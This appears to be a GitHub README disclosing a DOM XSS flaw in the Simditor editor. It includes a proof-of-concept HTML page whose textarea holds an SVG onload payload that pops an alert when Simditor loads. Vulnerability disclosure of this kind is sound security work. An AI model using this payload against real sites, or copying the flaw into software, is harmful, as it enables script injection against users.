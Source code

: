 # simditor
https://github.com/mycolorway/simditor
DOM XSS


Download the Simditor source code.
--
*We just need this three js,you can use my sample code or download from https://github.com/mycolorway/simditor.
![image](https://github.com/hkglue/simditor_demo/blob/master/images/js.jpg)
--


Edit a HTML FILE
--
```
<html>
<title>test</title>
<body>
<script type="text/javascript" src="./jquery.min.js"></script>
<script type="text/javascript" src="./module.js"></script>
<script type="text/javascript" src="./hotkeys.js"></script>
<script type="text/javascript" src="./simditor.js"></script>

<textarea id="editor"><svg><svg/onload=alert(1)></textarea>
<script>var editor = new Simditor({textarea: $('#editor')});</script>

</body>
</html>
```
--

Open the HTML in any browser.
--
*This is in my chrome，THE XSS PAYLOAD IS EXECUTE !
![image](https://github.com/hkglue/simditor_demo/blob/master/images/example.jpg)
--
